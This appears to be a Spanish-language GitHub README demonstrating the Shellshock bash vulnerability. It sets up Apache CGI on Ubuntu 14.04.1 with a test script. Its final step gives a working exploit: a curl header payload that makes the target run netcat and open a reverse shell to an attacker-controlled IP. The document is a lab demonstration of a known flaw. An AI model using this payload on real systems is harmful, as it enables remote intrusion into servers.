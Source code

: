 # Shellshock-Demo

# Requisitos 

- Ubuntu 14.04.1 (http://releases.ubuntu.com/14.04.1)
- Apache Server (Cualquiera)
- Curl (Cualquiera)

# Proceso

1. Instalar Apache Server y Curl
```
$ sudo apt-get install apache2 curl
```

2. Activar el modulo CGI de Apache
```
$ cd /etc/apache2/mods-enabled
$ sudo ln -s ../mods-available/cgi.load
```

3. Reiniciar Apache 

```
$ sudo service apache2 reload
```

4. Crear script en los directorios de CGI
```
nano /usr/lib/cgi-bin/test.sh

Pegar el contenido

#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Holis!"

Hacerlo ejecutable
$ sudo chmod +x /usr/lib/cgi-bin/test.sh
```

5. Visitar el script para ver el funcionamiento normal

```
localhost/cgi-bin/test.sh

o con curl

$ curl localhost/cgi-bin/test.sh
```

6. Hacer llamada al script con el payload de shellshock

En maquina de ataque:

```
$ nc -lvp 4242

# En otra terminal
$ curl 192.168.139.128/cgi-bin/test.sh  -H "custom:() { :; }; /bin/nc 192.168.139.1 4242 -e /bin/bash"
```
